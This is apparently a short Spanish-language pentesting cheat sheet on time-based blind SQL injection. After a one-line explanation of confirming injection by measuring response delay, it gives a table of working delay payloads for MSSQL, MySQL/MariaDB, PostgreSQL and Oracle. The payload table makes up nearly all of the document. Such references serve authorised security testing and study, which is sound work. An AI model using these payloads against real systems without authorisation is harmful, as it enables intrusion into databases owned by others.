 ### Info

Aplicamos lógica de tiempo en SQL para ver si se inyecta y es validada analizando el tiempo que tardó la response.

### PAYLOADS

| DB   | payload |
|----------|------|
| MSSQL     | '; IF 1=1 WAITFOR DELAY '0:0:10'--  |
| MySQL/MariaDB    | AND (SELECT SLEEP(10) FROM dual WHERE database() LIKE '%')  |
| PostgreSQL    | \|\| (SELECT 1 FROM PG_SLEEP(10))   |
| Oracle    | AND 1234=DBMS_PIPE.RECEIVE_MESSAGE('RaNdStR',10)  |


